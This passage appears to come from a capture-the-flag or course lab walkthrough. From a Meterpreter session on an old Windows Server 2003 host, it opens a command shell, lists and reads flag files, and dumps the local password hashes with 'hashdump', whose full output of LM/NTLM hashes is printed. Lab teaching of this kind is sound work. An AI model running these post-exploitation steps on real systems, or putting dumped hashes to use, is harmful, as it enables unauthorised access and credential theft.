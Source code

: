 meterpreter > 
</pre>

Once we have a Meterpreter session, we can open a command prompt on the system by running `shell`. Examine files using `dir`:

<pre>
meterpreter > shell
Process 212 created.
Channel 1 created.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 944B-C748

 Directory of C:\

11/11/2008  03:27 AM                 0 AUTOEXEC.BAT
09/23/2019  02:10 PM                23 bonusflag.txt
11/11/2008  03:27 AM                 0 CONFIG.SYS
06/07/2013  09:00 PM    &lt;DIR&gt;          Documents and Settings
11/11/2008  05:47 AM    &lt;DIR&gt;          firefox
04/15/2019  11:43 AM               426 flag1.txt
11/11/2008  05:21 AM    &lt;DIR&gt;          Inetpub
02/18/2007  01:31 AM            94,720 msizap.exe
01/03/1998  03:37 PM            59,392 nc.exe
10/10/2017  10:02 AM    &lt;DIR&gt;          Program Files
09/20/2019  06:20 PM    &lt;DIR&gt;          temp
10/03/2019  08:29 AM    &lt;DIR&gt;          WINDOWS
11/11/2008  03:28 AM    &lt;DIR&gt;          wmpub
               6 File(s)        154,561 bytes
               7 Dir(s)   4,113,903,616 bytes free

C:\&gt;type flag1.txt
type flag1.txt

The phrase that pays is located in several places throughout this room.  
Each flag gives you instructions for finding the phrase.

You will also need the Hydan steganography tool from the course USB.
Follow the directions in the README file.  Read them carefully.  

Follow the instructions in the flags exactly.  
If you follow the instructions exactly, the memory errors, seg faults, and garbage text will go away.
C:\>
</pre>

Return to the Meterpreter prompt by running `exit`. Dump password hashes using `hashdump` at the `meterpreter>` prompt:

<pre>
C:\>exit
exit
meterpreter > hashdump
admin:1013:1858b18e0a139abd358f4be2befbcf0f:744488a3d6b77a8a76d0cf5d19baa6b2:::
Administrator:500:452495d04f81e4c200b44745424c55eb:29affe6ea3732b9bc83c896c84311863:::
falken:1011:4fbd4cea97c5752caad3b435b51404ee:2049b70ec5b6944aed5fef05bc4b1933:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
IUSR_WILMA:1003:84be91bc0235ae1a23ef11b0f04203ae:2d36d8b39d37e174f350d1f54fa8a93c:::
IWAM_WILMA:1004:4fd3d0eea847cc93d9b3122cfc667c5e:e09dbfeb01becf58d8d83a798e82e79c:::
mike:1010:bb2493b09f6ecfc9aad3b435b51404ee:c0bb120391d5367712cc4c92389bfa21:::
paul:1017:d0a0825c400e051daad3b435b51404ee:6c4585a24a43fa45e2a64e746620d06f:::
peaches:1018:a9ed0f91b3b23974c2265b23734e0dac:d0e23e8494cfc43275d035981551ff11:::
SUPPORT_388945a0:1001:aad3b435b51404eeaad3b435b51404ee:b8697e859faa3aadf1390b559d730e46:::